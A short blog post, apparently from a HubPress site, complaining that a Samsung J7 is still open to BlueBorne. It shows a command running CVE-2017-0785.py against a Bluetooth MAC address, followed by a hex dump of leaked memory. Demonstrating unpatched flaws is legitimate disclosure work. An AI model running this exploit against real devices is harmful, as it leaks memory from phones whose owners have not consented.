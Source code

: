 // = Your Blog title
// See https://hubpress.gitbooks.io/hubpress-knowledgebase/content/ for information about the parameters.
// :hp-image: /covers/cover.png
// :published_at: 2019-01-31
// :hp-tags: HubPress, Blog, Open_Source,
// :hp-alt-title: My English Title
= "Happy" to see that Samsung doesn't give a shit about BlueBorne.

:hp-tags: Samsung, J7, BlueBorne
`
─[$]› python CVE-2017-0785.py TARGET=28:27:BF:3A:17:8A

[+] Exploit: Done

\x03\x00\x00\x00+\x00\x00    \x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x04\x00\x00\x05\x00\x00\x06\x00\x00\x07\x00\x0\x00\x00    \x00    

00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*

00000050  00 00 00 00  00 02 00 01  ea 3f 01 00  00 00 00 00  │····│····│·?··│····│

00000060  00 00 75 30  00 00 00 08  f3 95 73 88  ce 93 12 b7  │··u0│····│··s·│····│
...
`